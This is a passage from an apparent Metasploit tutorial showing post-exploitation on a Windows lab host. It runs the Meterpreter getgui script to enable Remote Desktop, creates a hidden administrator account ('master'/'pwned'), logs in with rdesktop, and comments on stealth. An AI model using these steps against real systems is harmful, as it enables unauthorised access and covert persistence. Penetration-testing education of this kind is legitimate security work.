 Another way we can get access to the system is via Remote Desktop:

``` plain
meterpreter > run getgui
Windows Remote Desktop Enabler Meterpreter Script
Usage: getgui -u <username> -p <password>
Or:    getgui -e

OPTIONS:

    -e        Enable RDP only.
    -f <opt>  Forward RDP Connection.
    -h        Help menu.
    -p <opt>  The Password of the user to add.
    -u <opt>  The Username of the user to add.
```

Let's use it to enable Remote Desktop on the target and add our own user:

``` plain
meterpreter > run getgui -e
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Enabling Remote Desktop
[*] 	RDP is disabled; enabling it ...
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[*] 	Opening port in local firewall if necessary
[*] The following Error was encountered: Rex::TimeoutError Operation timed out.
[*] For cleanup use command: run multi_console_command -rc /root/.msf5/logs/scripts/getgui/clean_up__20160609.2112.rc
meterpreter > run getgui -u master -p pwned
[*] Windows Remote Desktop Configuration Meterpreter Script by Darkoperator
[*] Carlos Perez carlos_perez@darkoperator.com
[*] Setting user account for logon
[*] 	Adding User: master with Password: pwned
[*] 	Hiding user from Windows Login screen
[*] 	Adding User: master to local group 'Remote Desktop Users'
[*] 	Adding User: master to local group 'Administrators'
[*] You can now login with the created user
[*] For cleanup use command: run multi_console_command -rc /root/.msf5/logs/scripts/getgui/clean_up__20160609.2308.rc
```

And to check if it worked, we can use the *rdesktop* client like this:

``` plain
root@pwnbox:~#rdesktop -u master -p pwned 192.168.80.128
```

{% img center /images/tools/metasploit/rd.png 'remote desktop' 'remote desktop session on hacked machine' %}

However, this is not very stealthy, because if another user is logged in, they will be disconnected. Anyway, better clean up after ourselves when we're done:
